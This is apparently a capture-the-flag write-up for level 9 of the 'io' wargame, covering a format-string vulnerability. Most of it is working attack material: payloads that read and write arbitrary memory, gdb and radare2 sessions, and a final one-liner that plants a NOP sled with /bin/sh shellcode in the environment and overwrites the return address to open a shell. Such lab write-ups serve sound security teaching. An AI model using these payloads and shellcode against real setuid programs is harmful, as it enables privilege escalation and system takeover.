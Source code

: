 good paper: https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf

good blog post: http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

To read arbitrary memory (say from the environment variable area):
```
level9@io:/tmp/maxblevelztesting9$ /levels/level09 $(python -c "print '\xa0\xfe\xff\xbfAAA1_%08x.%08x.%08x.%s'")
����AAA1_bffffe20.000003ff.00000000._PATH=/usr/local/radare/lib/level9@io:/tmp/maxblevelztesting9$
```

To write arbitrarily to memory
```
level9@io:/tmp/maxblevelztesting9$ /levels/level09 $(python -c "print '\xa0\xfe\xff\xbfAAA1_%08x.%08x.%08x.%n'")
```
will write the integer `24` to 0xbffffea0 (where `24` is the number of bytes written by printf)

```
(venv) ~/w/r/c/io ❯❯❯ echo "dcu 0x080483ee; px 0x20 @ 0xffffccee " | r2 -Raslr=no -d ./level09 "$(python -c 'print "'"\xf0\xcc\xff\xff\xee\xcc\xff\xff %49141x%4\$hn%16384x%5\$hn"'"')" 2>&1 | tail -n 5
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffccee  ffff ffbf 0000 0000 0000 0020 faf7 5a57  ........... ..ZW
0xffffccfe  fef7 00d0 fff7 0000 0000 0020 faf7 0000  ........... ....
```

return address is at 0xbffff7fc, so we want to overwrite that w/ the address of our exploit from the environment variables
```
level8@io:~$ export NOP_AND_SHELLCODE=$(python -c "print '\x90' * 1024 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
level9@io:~$ gdb /levels/level09
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /levels/level09...done.
(gdb) b main
Breakpoint 1 at 0x80483ad
(gdb) run AAAA
Starting program: /levels/level09 AAAA

Breakpoint 1, 0x080483ad in main ()
(gdb)  x/s *((char **)environ)
0xbffffa03:	"XDG_SESSION_ID=310301"
(gdb) x/10w 0xbffffd23
0xbffffd23:	U'\x90909090' <repeats 157 times>, "\xdb31c031\x80cd17b0\x895e1feb\xc0310876\x89074688\xbb00c46\x4e8df389\xc568d08\xdb3180cd\xcd40d889\xffdce880\x622fffff\x732f6e69\x44580068\x55525f47\x4d49544e\x49445f45\x722f3d52\x752f6e75\x2f726573\x39303031\x656c2f00\x736c6576\x76656c2f\x39306c65"
```

current attempt:
```
/levels/level09 "$(python -c 'print "'"\xfe\xf7\xff\xbf\xfc\xf7\xff\xbf %49142x%4\$hn%15652x%5\$hn"'"')"
```
*should* write 0xbffffd23 (place where our environment variable NOP slide is) to 0xbffff7fc (where we think the return pointer location is)

WIN:
```
env -i PWD="/tmp/maxblevelztesting9" SHELL="/bin/bash" SHLVL=0 NOP_AND_SHELLCODE=$(python -c "print '\x90' * 1024 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'") /levels/level09 "$(python -c 'print "'"\xbe\xf9\xff\xbf\xbc\xf9\xff\xbf %49142x%4\$hn%15652x%5\$hn"'"')"
```

The trick was setting up gdb to be identical to running it normally
https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

```
env -i PWD="/tmp/maxblevelztesting9" SHELL="/bin/bash" SHLVL=0 NOP_AND_SHELLCODE=$(python -c "print '\x90' * 1024 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'") gdb /levels/level09
$ unset env LINES
$ unset env COLUMNS
```
then you can debug through it to find the return address location you want to overwrite 🎆
